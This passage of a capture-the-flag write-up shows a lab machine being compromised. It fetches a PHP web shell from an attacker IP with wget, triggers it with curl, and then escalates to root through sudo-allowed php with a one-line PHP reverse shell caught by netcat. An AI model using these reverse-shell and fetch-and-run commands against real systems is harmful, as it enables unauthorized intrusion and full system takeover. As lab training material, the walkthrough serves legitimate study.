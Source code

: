 Looks good. Let’s upload a PHP shell and trigger it with curl:

```bash
ada@forgottenimplant:/var/www/phpmyadmin/tmp$ wget 10.6.74.177/shell.php

--2023-08-02 22:32:12--  http://10.6.74.177/shell.php
Connecting to 10.6.74.177:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5493 (5.4K) [application/octet-stream]
Saving to: ‘shell.php’

shell.php           100%[===================>]   5.36K  --.-KB/s    in 0.001s  

2023-08-02 22:32:12 (4.64 MB/s) - ‘shell.php’ saved [5493/5493]

ada@forgottenimplant:/var/www/phpmyadmin/tmp$ curl 127.0.0.1/tmp/shell.php
```

With the above we receive a connection back in our new shell as www-data

# Become root

```bash
$ sudo -l
Matching Defaults entries for www-data on forgottenimplant:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on forgottenimplant:
    (root) NOPASSWD: /usr/bin/php
```

To leverage this, we’ll start one more listener on an empty port, then make a call back via PHP with `sudo` : 

```bash
www-data@forgottenimplant:/$ sudo php -r '$sock=fsockopen("10.6.74.177",4447);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Finally we see that beautiful hashtag prompt!

```bash
┌──(user㉿kali-linux-2022-2)-[~]
└─$ nc -lvp 4447
listening on [any] 4447 ...
10.10.115.84: inverse host lookup failed: Unknown host
connect to [10.6.74.177] from (UNKNOWN) [10.10.115.84] 60730
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
#
```

